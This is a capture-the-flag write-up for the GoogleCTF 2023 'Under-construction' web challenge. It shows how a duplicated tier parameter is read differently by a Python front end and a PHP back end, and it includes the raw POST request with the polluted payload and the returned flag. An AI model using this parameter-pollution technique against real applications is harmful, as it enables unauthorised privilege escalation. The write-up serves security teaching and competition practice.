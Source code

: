 # GoogleCTF 2k23 Writeup

### Under-construction 

The app is about merging an app from python to php and it's done by making a new python application that interacts with the db but forward the code to the php application for the signup feature. 

We want to create a user with tier `gold` to get flag

```php
    if ($tier === "gold") {
        $response .= " " . getenv("FLAG");
    }
```

This task is fairly easy and straight forward. Actually, We have one and only one interesting action that is done by our application which is the forwarding part.

```python
    resp=requests.post(f"http://{PHP_HOST}:1337/account_migrator.php", 
        headers={"token": TOKEN, "content-type": request.headers.get("content-type")}, data=raw_request)
```

Here the token is to make the sure only the python app can interact with the php one's. So we cannot think of any request smuggling as we don't know the token. (Yes looking how we are passing the raw_request, I thought abt it ). Instead, we can think of how paramater are interpreted by both apps. and we will find out that when we send

```
tier=blue&tier=gold
```

the value will be taken as `blue` in the python app and `gold` in the php app. So we can send the following request to get the flag

```
POST /signup HTTP/2
Host: under-construction-web.2023.ctfcompetition.com
Content-Length: 55
Origin: https://under-construction-web.2023.ctfcompetition.com
Content-Type: application/x-www-form-urlencoded

username=12345612&password=aaaaaaaa&tier=blue&tier=gold
```

And then we can retrieve the flag by loggin in the php app. 

```
Login successful. Welcome 12345612. CTF{ff79e2741f21abd77dc48f17bab64c3d}
```

## Biohazard
